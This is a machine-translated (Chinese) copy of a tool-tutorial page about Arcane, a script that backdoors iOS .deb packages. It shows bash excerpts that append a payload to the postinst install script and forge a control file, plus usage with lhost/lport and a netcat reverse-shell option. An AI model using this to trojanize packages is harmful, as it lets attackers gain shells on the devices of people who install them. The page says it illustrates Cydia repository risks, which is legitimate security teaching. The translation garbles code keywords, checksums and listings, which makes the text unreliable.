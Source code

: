 # 奥术:一个简单的脚本，设计来后门 iOS 包

> 原文：<https://kalilinuxtutorials.com/arcane/>

[![Arcane : A Simple Script Designed To Backdoor iOS Packages](img//6b7c1e520517abf399ffd7fd66b330a3.png "Arcane : A Simple Script Designed To Backdoor iOS Packages")](https://1.bp.blogspot.com/-AEnjv7QM0ZE/XzqQVifLfbI/AAAAAAAAHWA/ZWriJSPru9MTAvJK8XYFJY8ZEKmqwkuywCLcBGAsYHQ/s1018/Arcane.gif)

Arcane 是一个简单的脚本，旨在后门 iOS 包(iphone-arm)并为 APT 库创建必要的资源。它是为[这份出版物](https://null-byte.com/a-0325421/)创建的，以帮助说明为什么 Cydia 库可能是危险的，以及来自被入侵的 iOS 设备的可能的利用后攻击。

奥术是如何工作的？

要理解 GIF 中发生了什么，解压用 Arcane 创建的包。

**dpkg-deb-r/tmp/Cydia/whois _ 5 . 3 . 2-1 _ iphone OS-arm _ backdoor . deb/tmp/whois-decomp**

注意在`DEBIAN`目录中的`**control**`和`**postinst**`文件。这两个文件都很重要。

**tree/tmp/whois-decomp/

/tmp/whois-decomp/**
├──debian
│├──control
│└──postinst
└──usr
└──bin
└──whois

安装或删除应用程序时，可以将脚本作为软件包的一部分提供。[包维护者脚本](https://www.debian.org/doc/debian-policy/ch-maintainerscripts.html)包括 [preinst、postinst、prerm 和 postrm](https://wiki.debian.org/MaintainerScripts) 文件。Arcane 利用`postinst`文件在安装过程中执行命令。

**#安装后文件。该文件通常负责在安装所需文件后在操作系统上执行命令。开发人员利用它来管理和维护安装的各个方面。Arcane 通过在文件中附加恶意的 Bash 命令来滥用这个功能。**
postinst = " $ tmp/DEBIAN/postinst "；
**#一个处理嵌入到 postinst 文件中的命令执行类型的函数。**
函数 inject_backdoor ()
{
#如果使用–file，`cat`将命令放入 postinst 文件。
if[[" $ infile "]]；然后
猫" $ infile ">>" $ postinst "；
embed = "[$ infile]"；
否则
#如果没有–文件，则使用简单的 Bash 有效负载，如前面的
#所定义。
echo-e " $ payload ">>" $ postinst "；
embed= "通用 shell 命令"；
fi；
状态“embedded $embed into postinst”“嵌入后门出错”；chmod 0755 " $ postinst "
}；

[控制](https://www.debian.org/doc/debian-policy/ch-controlfields.html)文件包含包管理工具在安装包时使用的值。奥术要么修改现有的`control`要么创造它。

**#的“控制”文件模板。大多数 iOS 包都会包含一个控制文件。如果找不到，奥术将使用下面的模板。这里使用了`$hacker`变量来占据各种任意字段。**
**#**
control temp = " Package:com。$hacker.backdoor
名称:$hacker backdoor
版本:1337
版块:app
架构:iphoneos-arm
描述:一个被后门的 iOS 包
作者:$ hacker[https://$ hacker . github . io/](https://$hacker.github.io/)
维护者:$ hacker[https://$ hacker . github . io/](https://$hacker.github.io/)"；
…………..
**#一个`if`语句来检查控制文件。**
如果[[！-f " $ tmp/DEBIAN/control "]]；然后
#如果没有检测到控件，使用模板创建它。
echo " $ control temp ">" $ tmp/DEBIAN/control "；
状态“已创建控制文件”“控制模板出错”；如果一个控制文件存在，Arcane 将简单地重命名这个包
#就像它出现在可用的 Cydia 应用程序列表中一样。此
#使包裹更容易在 Cydia 中定位。
msg“检测到的控制文件”succ'0,/^Name:.战略与经济对话*/s//Name:$ hacker back door/' " $ tmp/DEBIAN/control "；
状态“修改控制文件”“控制出错”；
fi；

**用途**

在 Kali v2020.3 中克隆存储库。

#sudo apt-get 更新；sudo apt-get install-Vy bzip2 netcat-traditional dpkg coreutils # dependencies
# sudo git clone https://github.com/tokyoneon/arcane/opt/arcane
# sudo chown $ USER:$ USER-R/opt/arcane/；CD/opt/arcane
# chmod+x arcane . sh；。/arcane . sh–救命

将命令嵌入给定的包中。更多信息见文章。

。/arcane . sh–输入样本/sed _ 4.5-1 _ iphone OS-arm . deb–lhost–lport<4444>–cy dia–netcat

**包装样品**

回购包括用于测试的包。

#ls 样本/
# rw-r-r–1 根 100748 年 7 月 17 日 18:39 libpt-pkg-dev _ 1 . 8 . 2 . 1-1 _ iphone OS-arm . deb
# rw-r–1 根 142520 年 7 月 22 日 06:21 network-cmds _ 543-1 _ iphone OS-arm . deb
# rw-r–1 根

MD5 总和，在官方 Bingner 存储库中找到。

# MD5 sum samples/* . deb
t1]3f 1712964701580 B3 f 0188305 a55 和 217 c samples/libpt-pkg-dev _ 1 . 8 . 2 . 1-1 _ iphone OS arm . deb
795 CCF 9c 6d 53 DD 60 D2 f74 F7 a 601 f samples/network-cmds _ 543-1 _ iphone OS arm . deb]

[**Download**](https://github.com/tokyoneon/Arcane)